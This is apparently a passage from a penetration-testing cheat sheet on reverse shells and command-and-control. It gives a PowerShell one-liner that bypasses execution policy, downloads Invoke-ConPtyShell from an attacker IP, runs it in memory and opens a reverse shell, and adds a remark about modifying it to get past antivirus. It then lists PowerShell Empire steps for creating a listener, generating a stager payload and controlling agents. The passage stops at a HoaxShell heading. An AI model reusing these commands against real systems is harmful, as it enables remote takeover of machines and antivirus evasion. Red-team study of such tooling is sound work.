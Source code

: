 ```bash
powershell -nop -ep bypass -C "IEX(IWR http://10.11.19.145/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.11.19.145 1111"
```

> This will load a dll and get flagged by Antivirus, need to do some modification

### PowerShell Empire

The best c2 framework which utilizes powershell

```bash
# Start team server and client
./ps-empire server
./ps-empire client 

# Create Listener
uselistener http
set Port 2222
set Host 10.11.19.145
execute

# Create Staget and get payload cmd
usestager multi_launcher
set Listener http
generate

# Interact with agents
agents
interact 5TPLU3ZH
```

Its web UI is awesome

![](../../attachment/d8f751b091dc01ee8b8dace9064e5426.png)

### HoaxShell
